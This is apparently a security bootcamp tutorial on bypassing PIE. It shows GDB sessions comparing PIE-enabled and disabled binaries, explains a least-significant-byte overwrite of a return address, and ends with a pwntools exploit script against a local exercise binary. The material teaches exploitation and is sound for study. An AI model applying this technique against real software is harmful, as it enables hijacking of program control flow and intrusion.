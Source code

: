 Example 3 (15 min) Partial Overwrite

# Example 03

This next example will introduce 'PIE' - Position Independent Execution, and one technique to bypass it.

## PIE

You can think of PIE as ASLR for the code segment. If a binary is compiled with PIE, then the address of functions and strings will be at a different location each run.

We can see this in GDB, when we compile with and without pie. By default, GDB will automatically disable PIE to make debugging 'easier', so before starting the program, run `set disable-randomization off`.

PIE Disabled:
```
━━┫ gdb example03-no-pie -q 
Reading symbols from example03-no-pie...
gef➤  set disable-randomization off
gef➤  p main
$1 = {<text variable, no debug info>} 0x401020 <main>
gef➤  b main
Breakpoint 1 at 0x401020
gef➤  r
Starting program: /home/nat/Dev/bootcamp-training-2020/pwn/example03/example03-no-pie 

Breakpoint 1, 0x0000000000401020 in main ()
gef➤  p main
$2 = {<text variable, no debug info>} 0x401020 <main>
gef➤  quit
```

PIE Enabled:
```
━━┫ gdb example03 -q
Reading symbols from example03...
gef➤  set disable-randomization off
gef➤  p main
$1 = {<text variable, no debug info>} 0x1040 <main>
gef➤  b main
Breakpoint 1 at 0x1040
gef➤  r
Starting program: /home/nat/Dev/bootcamp-training-2020/pwn/example03/example03 

Breakpoint 1, 0x000055cf4bef9040 in main ()
gef➤  p main
$2 = {<text variable, no debug info>} 0x55cf4bef9040 <main>
```

When PIE is disabled, the address code is loaded at is saved in the binary. When PIE is enabled the location of `main` is different before execution starts and it is loaded into memory. This makes jumping to code in a binary much more difficult.

## LSB Overwrite

This example will introduce a simple and basic technique to bypass PIE. A LSB overwrite is what we call it when we overwrite the least significant byte of the return address. This works because the least significant byte will be unchanged by PIE, since true randomization adds a lot moreoverhead.

Here is an example:

If we wanted to return to `main`, in the previous example, we can look at the code and see that the address of main in the binary is `0x1040`, we would want to overwrite the least significant byte of the hypothetical current return address of `0x000055cf4bef90a2` to `0x40`, resulting in a return address of `0x000055cf4bef9040`, the address of `main` that we want to jump to. 

The situations where this technique will work are somewhat limited:
 - There must be code that you want to execute within about 256 bytes of the return address
 - If a null byte will be appended to your input, the technique will not work reliably. (Sometimes overwriting the LSB with 0x00 will still be useful)

In addition, a brute-force option is sometimes appropriate. You can continue to overwrite the 2nd or 3rd least significant bytes, and run your exploit multiple times until the randomization works out.

## Example

Sometimes you run into weird situations, and your payload isn't working as expected. This is where debugging with gdb can be especially helpful. In this example, your first attempt at a payload might not work. This is because one of your input bytes will overwrite the variable `i`, which determines what offset will be written to. If you notice this, you can set the offset to your desired value, and can continue with your exploitation.

```python
from pwn import *

p = process('./example03')

# \x27 overwrites the counter, and points it to the end of the return address
# \xbb is the address of 'win'
payload = b'A' * 24 + b'\x27' + b'\xbb'
p.sendline(payload)

p.interactive()
```
